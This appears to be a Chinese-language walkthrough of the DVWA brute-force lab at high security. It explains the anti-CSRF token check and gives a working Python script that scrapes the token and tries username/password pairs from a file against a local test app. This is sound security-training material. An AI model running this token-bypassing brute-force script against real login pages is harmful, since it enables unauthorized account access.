

# high

高级别模式中含有一个防止CSRF攻击的token，使用burp suite拦截高级模式的报文，发现安全级别为高级模式中除了用户名和登陆密码，还包含一个随机token值。



分析源码，在`DVWA/vulnerabilities/brute/source/high.php`中发现登陆前会先检查token，并且包含一个产生token的函数

```php
// Check Anti-CSRF token
checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );
```

产生token

```php
// Generate Anti-CSRF token
generateSessionToken();
```

服务器每次提交时会先生成一个token值，然后在登陆时先检查页面的token。因此需要一个爬虫来获取页面的token，此处不再使用burp suite


## 脚本

```python
# ! /use/bin/env python
# -*- coding:utf-8 -*-
import requests
from bs4 import BeautifulSoup
import sys
import re

get_user_token = re.compile(r'(?<=value=").*?(?=")')


def get_token(url):
    # reload(sys)  # 2
    # sys.setdefaultencoding('utf-8')
    header = {
        'Host': 'dvwa.localhost',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
        'Accept-Encoding': 'gzip, deflate',
        'Upgrade-Insecure-Requests': '1',
        'Accept-Language': 'zh-cn',
        'Connection': 'close',
        'Cookie': 'PHPSESSID=5tmkqrhm1gve2r9ap450c6m6m2; security=high',
        'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_3) AppleWebKit/604.5.6 (KHTML, like Gecko) Version/11.0.3 Safari/604.5.6'
    }
    rep = requests.get(url, headers=header)
    rep.encoding = 'utf-8'
    soup = BeautifulSoup(rep.text, "lxml")
    print(len(rep.text))
    input_list = soup.find('input', type="hidden")
    user_token = get_user_token.search(str(input_list)).group()
    return user_token


if __name__ == '__main__':
    user_token = get_token("http://dvwa.localhost/vulnerabilities/brute/")
    with open('1.txt') as f:
        i = 0
        for item in f.readlines():
            pos = item.rfind(",")
            username = item[:pos]
            password = item[pos + 1:]
            requrl = "http://dvwa.localhost/vulnerabilities/brute/" + "?username=" + username.strip() + \
                     "&password=" + password.strip() + "&Login=Login&user_token=" + user_token
            i += 1
            print(i, username.strip(), password.strip());
            user_token = get_token(requrl)

```

结果


发现用户名`admin`和密码`password`和其他的长度不同，尝试用此组合登陆，可以成功登陆。